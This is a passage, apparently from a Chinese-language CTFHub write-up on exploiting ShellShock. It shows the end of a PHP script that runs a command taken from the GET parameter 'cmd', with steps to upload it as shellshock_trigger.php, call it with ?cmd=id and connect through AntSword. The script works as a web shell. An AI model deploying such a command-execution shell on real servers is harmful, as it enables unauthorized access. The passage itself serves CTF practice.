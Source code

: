         // 从 GET 参数获取命令
        if(isset($_GET['cmd'])) {
            runcmd_shellshock($_GET['cmd']);
        } else {
            echo "Usage: ?cmd=<command>";
        }
        ?>
        ```
    3.  **执行:** 上传此 PHP 文件，访问 `shellshock_trigger.php?cmd=id`。
*   **CTFHUB 示例 (CTFHUB Example):**
    ![ShellShock 1](/ctfhub/images/web4.png)
    (提供蚁剑连接信息)